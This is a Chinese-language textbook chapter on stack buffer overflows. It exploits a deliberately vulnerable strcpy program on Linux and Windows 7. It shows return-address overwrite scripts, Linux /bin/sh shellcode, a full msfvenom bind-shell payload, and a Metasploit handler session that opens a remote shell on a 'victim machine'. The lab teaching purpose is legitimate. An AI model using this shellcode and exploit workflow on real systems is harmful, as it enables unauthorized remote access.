# 第六章：缓冲区溢出攻击

在本章中，我们将更深入地探讨缓冲区溢出攻击。我们将看到如何改变执行流程，并且看一些非常简单的方法来注入 shellcode。我们开始吧？

# Linux 上的堆栈溢出

现在，我们即将学习什么是缓冲区溢出，并且我们将了解如何改变执行流程，使用一个有漏洞的源代码。

我们将使用以下代码：

```
int copytobuffer(char* input)
{
    char buffer[15];
    strcpy (buffer,input);
    return 0;
}
void main (int argc, char *argv[])
{
    int local_variable = 1;
    copytobuffer(argv[1]);
    exit(0);
}
```

好的，让我们稍微调整一下，做一些更有用的事情：

```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int copytobuffer(char* input)
{
    char buffer[15];
    strcpy (buffer,input);
    return 0;
}

void letsprint()
{
    printf("Hey!! , you succeeded\n");
    exit(0);
}

void main (int argc, char *argv[])
{
   int local_variable = 1;
   copytobuffer(argv[1]);
   exit(0);
}
```

在这里，我们添加了一个新函数`letsprint`，其中包含`printf`，由于这个函数从未在`main`函数中被调用过，它将永远不会被执行。那么，如果我们使用这个缓冲区溢出来控制执行并改变流程来执行这个函数呢？

现在，让我们在我们的 Ubuntu 机器上编译并运行它：

```
$ gcc -fno-stack-protector -z execstack buffer.c -o buffer
$ ./buffer aaaa
```

前面命令的输出可以在以下截图中看到：


如你所见，什么都没有发生。让我们尝试造成溢出：

```
 $ ./buffer aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

前面命令的输出可以在以下截图中看到：


好的，现在让我们试着在我们的 GDB 中获取那个错误：

```
$ gdb ./buffer
```

然后，让我们在`main`函数处设置一个断点，暂停执行在`main`函数处：

```
$ break main
```

现在，程序开始。它将在`main`函数处暂停。使用 24 个`a`字符作为输入继续：

```
$ run aaaaaaaaaaaaaaaaaaaaaaaa
```

然后，代码将在`main`处暂停：


按下*C*和*Enter*键继续执行：



程序如预期地崩溃了，所以让我们尝试输入 26 个`a`字符：

```
$ run aaaaaaaaaaaaaaaaaaaaaaaaaa
```

你可以使用 Python 生成输入，而不是计算字符数：

```
#!/usr/bin/python

buffer = ''
buffer += 'a'*26
f = open("input.txt", "w")
f.write(buffer)
```

然后，给予它执行权限并执行它：

```
$ chmod +x exploit.py
$ ./exploit.py
```

在 GDB 中，运行以下命令：

```
$ run $(cat input.txt)
```

然后，代码将在`main`处暂停：


按下*C*然后*Enter*继续执行：



你注意到`??()`中的错误`0x0000000000006161`了吗？从前面的截图中，程序不知道`0x0000000000006161`在哪里，`6161`是`aa`，这意味着我们能够向 RIP 寄存器注入 2 个字节，这就是我如何在 24 个字符后开始的。别担心，我们将在下一章中讨论这个问题。

让我们确认一下，使用 24 个`a`字符和 6 个`b`字符：

```
$ run aaaaaaaaaaaaaaaaaaaaaaaabbbbbb
```

我们也可以使用 Python：

```
#!/usr/bin/python

buffer = ''
buffer += 'a'*24
buffer += 'b'*6
f = open("input.txt", "w")
f.write(buffer)
```

然后，执行利用以生成新的输入：

```
$ ./exploit
```

之后，在 GDB 中运行以下命令：

```
$ run $(cat input.txt)
```

然后，代码将触发断点：



按下*C*然后*Enter*继续：


现在，通过查看错误，我们看到我们注入的`b`字符在里面。在这一点上，我们做得很好。现在我们知道了我们的注入形式，让我们尝试使用`disassemble`命令执行`letsprint`函数：

```
$ disassemble letsprint
```

前面命令的输出可以在以下截图中看到：


我们得到了`letsprint`函数中的第一条指令，`push rbp`，地址为`0x00000000004005e3`，我们需要的是真实地址；我们也可以使用`print`命令来获取地址：

```
$ print letsprint
```

前面命令的输出可以在以下截图中看到：


现在我们有了地址，让我们尝试使用 Python 构建我们的利用，因为我们不能直接传递地址：

```
#!/usr/bin/python
from struct import *

buffer = ''
buffer += 'a'*24
buffer += pack("<Q", 0x0000004005e3)
f = open("input.txt", "w")
f.write(buffer)
```

然后，我们执行它以生成新的输入：

```
$ ./exploit
```

现在，在 GDB 中，运行以下命令：

```
$ run $(cat input.txt)
```

然后，它将触发断点：


按下*C*然后*Enter*继续：


我们做到了！现在，让我们从我们的 shell 中确认，而不是从 GDB 中确认：

```
$ ./buffer $(cat input.txt)
```

前面命令的输出可以在以下截图中看到：


是的，我们改变了执行流程，执行了本不应该执行的东西！

让我们再试一个有趣的有效载荷。我们将使用我们的代码：

```
int copytobuffer(char* input)
 {
     char buffer[15];
     strcpy (buffer,input);
     return 0;
 }

void main (int argc, char *argv[])
 {
     int local_variable = 1;
     copytobuffer(argv[1]);
     exit(0);
 }
```

但我们将在这里添加我们的`execve`系统调用来从上一章运行`/bin/sh`：

```
unsigned char code[] =
 "\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05";

int main()
 {
     printf("Shellcode Length: %d\n", (int)strlen(code));
     int (*ret)() = (int(*)())code;
     ret();
 }
```

让我们把它们放在一起：

```
 #include <stdio.h>
 #include <string.h>
 #include <stdlib.h>

 void shell_pwn()
 {
    char code[] =
     "\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73
     \x68\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05";
    printf("Shellcode Length: %d\n", (int)strlen(code));
    int (*ret)() = (int(*)())code;
    ret();
 }
 int copytobuffer(char* input)
 {
     char buffer[15];
     strcpy (buffer,input);
     return 0;
 }

 void main (int argc, char *argv[])
 {
     int local_variable = 1;
     copytobuffer(argv[1]);
     exit(0);
 }
```

此外，这里`shell_pwn`永远不会被执行，因为我们从未在这里调用它，但现在我们知道如何做。首先，让我们编译它：

```
 $ gcc -fno-stack-protector -z execstack exec.c -o exec
```

然后，在 GDB 中打开我们的代码：

```
$ gdb ./exec
```

然后，在`main`函数处设置断点：

```
$ break main
```

好的，现在让我们准备我们的利用程序来确认 RIP 寄存器的确切位置：

```
#!/usr/bin/python

 buffer = ''
 buffer += 'a'*24
 buffer += 'b'*6
 f = open("input.txt", "w")
 f.write(buffer)
```

然后，执行我们的利用程序：

```
$ ./exploit.py
```

现在，从 GDB 中运行以下命令：

```
$ run $(cat input.txt)
```

然后，它将在`main`函数处触发断点：



按*C*然后*Enter*继续：


是的，它在抱怨我们的 6 个`b`字符，`0x0000626262626262`，所以现在我们走上了正确的道路。现在，让我们找到我们 shellcode 的地址：

```
$ disassemble shell_pwn
```

上述命令的输出可以在以下屏幕截图中看到：



第一条指令的地址是`0x000000000040060d`。此外，我们可以使用`print`函数：

```
$ print shell_pwn
```

上述命令的输出可以在以下屏幕截图中看到：


完美！现在，让我们构建我们的最终利用：

```
#!/usr/bin/python
 from struct import *

 buffer = ''
 buffer += 'a'*24
 buffer += pack("<Q", 0x00000040060d)
 f = open("input.txt", "w")
 f.write(buffer)
```

然后，执行它：

```
$ ./exploit.py
```

然后，在 GDB 内部，运行以下命令：

```
$ run $(cat input.txt)
```

然后，代码将在`main`函数处暂停；按*C*继续：


现在我们有了一个 shell；让我们尝试使用`$ cat /etc/issue`来执行它：



让我们确认一下，使用我们的 bash shell 而不是 GDB：

```
$ ./exec $(cat input.txt)
```

上述命令的输出可以在以下屏幕截图中看到：


让我们尝试执行一些东西：


它奏效了！

# Windows 上的堆栈溢出

现在，让我们尝试之前的易受攻击代码来利用 Windows 7 上的堆栈溢出。我们甚至不必在 Windows 上禁用任何安全机制，如**地址空间布局随机化**（**ASLR**）或**数据执行防护**（**DEP**）；我们将在第十二章中讨论安全机制，*检测和预防* - 我们开始吧？

让我们使用 Code::Blocks 尝试我们的易受攻击代码：

```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int copytobuffer(char* input)
{
     char buffer[15];
     strcpy (buffer,input);
     return 0;
}

void letsprint()
{
    printf("Hey!! , you succeeded\n");
    exit(0);
}

void main (int argc, char *argv[])
{
    int local_variable = 1;
    copytobuffer(argv[1]);
    exit(0);
}
```

简单地打开 Code::Blocks 并导航到文件|新建|空文件。

然后，编写我们的易受攻击代码。转到文件|保存文件，然后将其保存为`buffer2.c`：


现在，让我们通过导航到构建|构建来构建我们的代码。

让我们尝试看看幕后发生了什么；以管理员身份打开 Immunity Debugger。

然后，转到文件|打开并选择`buffer2`。在这里，将我们的参数输入为`aaaaaaaaaaaaaaaaaaaaaaaaaaabbbb`（27 个`a`和 4 个`b`的字符）；稍后我们将知道如何获得我们有效负载的长度：



现在，我们可以看到我们的四个窗口。运行程序一次。之后，我们就到了程序的入口点：



现在，再次运行程序并注意状态栏：


当执行`62626262`时，程序崩溃并给出访问冲突，这些是我们的字符`b`的 ASCII 码，最重要的是要注意寄存器（FPU）窗口：


指令指针指向`b`字符`62626262`，太完美了！

现在，让我们尝试定位我们的函数。从 Immunity Debugger 中，导航到调试|重新启动。

现在我们重新开始；运行程序一次，然后右键单击反汇编窗口，导航到搜索|所有引用的文本字符串：


在这里，我们正在搜索我们的字符串，它位于`letsprint`函数内部，`Hey!! , you succeeded\n`。

将弹出一个新窗口：


第三个是我们的字符串，但由于`exit(0)`函数的存在，它是不可读的。您可以通过编译另一个版本并执行相同的步骤来确保，然后您将能够读取我们的字符串。

这里的地址不是固定的-您可能会得到不同的地址。

双击我们的字符串，然后 Immunity Debugger 会将您准确设置在地址`0x00401367`处的字符串上：



实际上，我们不需要我们的字符串，但我们需要定位`letsprint`函数。继续向上直到到达上一个函数的末尾（`RETN`指令）。然后，下一条指令将是`letsprint`函数的开始：


就是这样！地址`0x0040135f`应该是`letsprint`函数的开始。现在，让我们确认一下。打开 IDLE（Python GUI）并导航到文件|新建窗口：



在新窗口中，编写我们的利用程序：

```
#!/usr/bin/python
from struct import *
buffer = ''
buffer += 'a'*27
buffer += pack("<Q", 0x0040135f)
f = open("input.txt", "w")
f.write(buffer)
```

然后，将其保存为`exploit.py`：


点击 IDLE 窗口上的运行，这将在当前工作目录中生成一个新文件`input.txt`。

打开`input.txt`文件：


这是我们的有效载荷；复制输出文件的内容。然后，返回到 Immunity Debugger，通过导航到文件|打开，然后将有效载荷粘贴到参数中并选择`buffer2`：


然后，启动 Immunity Debugger：


现在，运行程序；然后，它将暂停在程序的入口点：


现在，再次运行程序一次：



程序正常退出，退出代码为`0`。现在，让我们来看看 Immunity 的 CLI：


它奏效了！让我们来看看堆栈窗口：


请注意，`a`字符被注入到堆栈中，`letsprint`地址被正确注入。

现在，让我们尝试注入一个 shellcode，而不是使用`letsprint`函数，使用 Metasploit 生成 Windows 的 shellcode：

```
$ msfvenom -p windows/shell_bind_tcp -b'\x00\x0A\x0D' -f c
```

前面命令的输出可以在下面的截图中看到：



我们可以在使用之前测试这个 shellcode：

```
#include<stdio.h>
#include<string.h>

unsigned char code[] =
"\xda\xcf\xd9\x74\x24\xf4\xbd\xb8\xbe\xbf\xa8\x5b\x29\xc9\xb1"
"\x53\x83\xeb\xfc\x31\x6b\x13\x03\xd3\xad\x5d\x5d\xdf\x3a\x23"
"\x9e\x1f\xbb\x44\x16\xfa\x8a\x44\x4c\x8f\xbd\x74\x06\xdd\x31"
"\xfe\x4a\xf5\xc2\x72\x43\xfa\x63\x38\xb5\x35\x73\x11\x85\x54"
"\xf7\x68\xda\xb6\xc6\xa2\x2f\xb7\x0f\xde\xc2\xe5\xd8\x94\x71"
"\x19\x6c\xe0\x49\x92\x3e\xe4\xc9\x47\xf6\x07\xfb\xd6\x8c\x51"
"\xdb\xd9\x41\xea\x52\xc1\x86\xd7\x2d\x7a\x7c\xa3\xaf\xaa\x4c"
"\x4c\x03\x93\x60\xbf\x5d\xd4\x47\x20\x28\x2c\xb4\xdd\x2b\xeb"
"\xc6\x39\xb9\xef\x61\xc9\x19\xcb\x90\x1e\xff\x98\x9f\xeb\x8b"
"\xc6\x83\xea\x58\x7d\xbf\x67\x5f\x51\x49\x33\x44\x75\x11\xe7"
"\xe5\x2c\xff\x46\x19\x2e\xa0\x37\xbf\x25\x4d\x23\xb2\x64\x1a"
"\x80\xff\x96\xda\x8e\x88\xe5\xe8\x11\x23\x61\x41\xd9\xed\x76"
"\xa6\xf0\x4a\xe8\x59\xfb\xaa\x21\x9e\xaf\xfa\x59\x37\xd0\x90"
"\x99\xb8\x05\x0c\x91\x1f\xf6\x33\x5c\xdf\xa6\xf3\xce\x88\xac"
"\xfb\x31\xa8\xce\xd1\x5a\x41\x33\xda\x75\xce\xba\x3c\x1f\xfe"
"\xea\x97\xb7\x3c\xc9\x2f\x20\x3e\x3b\x18\xc6\x77\x2d\x9f\xe9"
"\x87\x7b\xb7\x7d\x0c\x68\x03\x9c\x13\xa5\x23\xc9\x84\x33\xa2"
"\xb8\x35\x43\xef\x2a\xd5\xd6\x74\xaa\x90\xca\x22\xfd\xf5\x3d"
"\x3b\x6b\xe8\x64\x95\x89\xf1\xf1\xde\x09\x2e\xc2\xe1\x90\xa3"
"\x7e\xc6\x82\x7d\x7e\x42\xf6\xd1\x29\x1c\xa0\x97\x83\xee\x1a"
"\x4e\x7f\xb9\xca\x17\xb3\x7a\x8c\x17\x9e\x0c\x70\xa9\x77\x49"
"\x8f\x06\x10\x5d\xe8\x7a\x80\xa2\x23\x3f\xb0\xe8\x69\x16\x59"
"\xb5\xf8\x2a\x04\x46\xd7\x69\x31\xc5\xdd\x11\xc6\xd5\x94\x14"
"\x82\x51\x45\x65\x9b\x37\x69\xda\x9c\x1d";

int main()
{
    printf("Shellcode Length: %d\n", (int)strlen(code));
    int (*ret)() = (int(*)())code;
    ret();
}
```

然后，构建并运行它：



现在，它正在等待我们的连接。从我们的攻击机器上，启动 Metasploit：

```
$ msfconsole
```

然后，选择处理程序以连接到受害者机器：

```
 $ use exploit/multi/handler
```

现在，选择我们的有效载荷，即`windows/shell_bind_tcp`：

```
$ set payload windows/shell_bind_tcp
```

然后，设置受害者机器的 IP 地址：



现在，设置 rhost：

```
$ set rhost 192.168.129.128
```

然后，让我们开始：

```
$ run
```

前面命令的输出可以在下面的截图中看到：


现在，会话开始于`session 1`：

```
$ session 1
```

前面命令的输出可以在下面的截图中看到：


我们现在在受害者机器内部。退出此会话，让我们回到我们的代码。因此，我们的最终代码应该是这样的：

```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int shell_pwn()
{
unsigned char code[] =
"\xda\xcf\xd9\x74\x24\xf4\xbd\xb8\xbe\xbf\xa8\x5b\x29\xc9\xb1"
"\x53\x83\xeb\xfc\x31\x6b\x13\x03\xd3\xad\x5d\x5d\xdf\x3a\x23"
"\x9e\x1f\xbb\x44\x16\xfa\x8a\x44\x4c\x8f\xbd\x74\x06\xdd\x31"
"\xfe\x4a\xf5\xc2\x72\x43\xfa\x63\x38\xb5\x35\x73\x11\x85\x54"
"\xf7\x68\xda\xb6\xc6\xa2\x2f\xb7\x0f\xde\xc2\xe5\xd8\x94\x71"
"\x19\x6c\xe0\x49\x92\x3e\xe4\xc9\x47\xf6\x07\xfb\xd6\x8c\x51"
"\xdb\xd9\x41\xea\x52\xc1\x86\xd7\x2d\x7a\x7c\xa3\xaf\xaa\x4c"
"\x4c\x03\x93\x60\xbf\x5d\xd4\x47\x20\x28\x2c\xb4\xdd\x2b\xeb"
"\xc6\x39\xb9\xef\x61\xc9\x19\xcb\x90\x1e\xff\x98\x9f\xeb\x8b"
"\xc6\x83\xea\x58\x7d\xbf\x67\x5f\x51\x49\x33\x44\x75\x11\xe7"
"\xe5\x2c\xff\x46\x19\x2e\xa0\x37\xbf\x25\x4d\x23\xb2\x64\x1a"
"\x80\xff\x96\xda\x8e\x88\xe5\xe8\x11\x23\x61\x41\xd9\xed\x76"
"\xa6\xf0\x4a\xe8\x59\xfb\xaa\x21\x9e\xaf\xfa\x59\x37\xd0\x90"
"\x99\xb8\x05\x0c\x91\x1f\xf6\x33\x5c\xdf\xa6\xf3\xce\x88\xac"
"\xfb\x31\xa8\xce\xd1\x5a\x41\x33\xda\x75\xce\xba\x3c\x1f\xfe"
"\xea\x97\xb7\x3c\xc9\x2f\x20\x3e\x3b\x18\xc6\x77\x2d\x9f\xe9"
"\x87\x7b\xb7\x7d\x0c\x68\x03\x9c\x13\xa5\x23\xc9\x84\x33\xa2"
"\xb8\x35\x43\xef\x2a\xd5\xd6\x74\xaa\x90\xca\x22\xfd\xf5\x3d"
"\x3b\x6b\xe8\x64\x95\x89\xf1\xf1\xde\x09\x2e\xc2\xe1\x90\xa3"
"\x7e\xc6\x82\x7d\x7e\x42\xf6\xd1\x29\x1c\xa0\x97\x83\xee\x1a"
"\x4e\x7f\xb9\xca\x17\xb3\x7a\x8c\x17\x9e\x0c\x70\xa9\x77\x49"
"\x8f\x06\x10\x5d\xe8\x7a\x80\xa2\x23\x3f\xb0\xe8\x69\x16\x59"
"\xb5\xf8\x2a\x04\x46\xd7\x69\x31\xc5\xdd\x11\xc6\xd5\x94\x14"
"\x82\x51\x45\x65\x9b\x37\x69\xda\x9c\x1d";

    printf("Shellcode Length: %d\n", (int)strlen(code));
    int (*ret)() = (int(*)())code;
    ret();
}

int copytobuffer(char* input)
{
    char buffer[15];
    strcpy (buffer,input);
    return 0;
}

void main (int argc, char *argv[])
{
    int local_variable = 1;
    copytobuffer(argv[1]);
    exit(0);
}
```

现在，构建它，并让我们在 Immunity Debugger 中运行它，以找到`shell_pwn`函数的地址。以管理员身份启动 Immunity Debugger，并选择我们带有任何参数的新代码：


然后，运行程序一次。现在，我们在程序的入口点：



右键单击主屏幕，导航到搜索|所有引用的文本字符串：


你看到`Shellcode Length`了吗？这是`shell_pwn`函数中的一个字符串；现在双击它：


程序将我们设置在`Shellcode Length`字符串的确切位置。现在，让我们向上移动，直到我们达到函数的起始地址：


就是在地址`0x00401340`。现在，让我们设置我们的利用代码：

```
#!/usr/bin/python
 from struct import *
 buffer = ''
 buffer += 'a'*27
 buffer += pack("<Q", 0x00401340)
 f = open("input.txt", "w")
 f.write(buffer)
```

现在，运行利用代码以更新`input.txt`；然后，打开`input.txt`：



然后，复制其中的内容。返回到 Immunity Debugger，再次打开程序并粘贴有效载荷：



然后，再次运行程序两次。代码仍在运行：


还要注意状态栏：


我们的 shellcode 现在正在运行并等待我们的连接。让我们回到我们的攻击机器上，设置处理程序以连接到受害者机器：

```
$ msfconsole
$ use exploit/multi/handler
$ set payload windows/shell_bind_tcp
$ set rhost 192.168.129.128
$ run
```

前面命令的输出可以在下面的截图中看到：


连接已在`session 2`上建立：

```
 $ session 2
```

前面命令的输出可以在下面的截图中看到：


它奏效了！

# 总结

在这一点上，我们知道了如何在 Linux 和 Windows 上进行缓冲区溢出攻击。此外，我们知道如何利用堆栈溢出。

在下一章中，我们将讨论更多的技术，比如如何定位和控制指令指针，如何找到有效载荷的位置，以及更多关于缓冲区溢出攻击的技术。
